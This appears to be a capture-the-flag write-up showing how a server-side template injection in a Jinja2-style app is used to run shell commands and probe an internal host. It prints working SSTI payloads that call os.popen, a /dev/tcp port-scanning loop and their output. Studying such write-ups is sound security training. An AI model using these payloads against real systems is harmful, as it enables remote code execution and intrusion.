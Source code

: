 We can confirm that by pinging toto8042:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ping -c 1 toto8042').read()}}
PING toto8042 (172.23.0.2): 56 data bytes
64 bytes from 172.23.0.2: icmp_seq=0 ttl=64 time=0.147 ms
--- toto8042 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.147/0.147/0.147/0.000 ms
```

## Solution

### Port discovery

(see port_discovery.js)

nmap (as well as nc, telnet and more) is not available on ssti4 so we can't use it to discover ports.

Fortunately the list of the 1000 most used ports is available [here](https://nullsec.us/top-1-000-tcp-and-udp-ports-nmap-default/).

We can test if a port is open with this simple bash command ([source](https://stackoverflow.com/a/35338529/12864941)):
```bash
timeout 1 bash -c '</dev/tcp/toto8042/${i}' && echo -n open || echo -n closed
```

Using this method we find that ports 4242 and 8042 are open.

### Port 8042

Running curl on 8042 (using ssti) returns this:
```bash
$ curl toto8042:8042
this is not the way this time, goodluck !!
```

### Port 4242

(see solve.js)

Port 4242 is not http.

We used python3 to open a TCP socket.

To run python code we can use ```python3 -c "command"```.

The ssti command looks like this:
```py
{{request.application.__globals__.__builtins__.__import__("os").popen("python -c \"CMD\"").read()}}
```
Note: quotes get a little tricky, the python command can only single quotes, at least using our implementation.

To see stderr we add ``` 2>&1 | cat``` at the end of the command (redirects stderr to stdout).
```py
{{request.application.__globals__.__builtins__.__import__("os").popen("python -c \"CMD\" 2>&1 | cat").read()}}
```
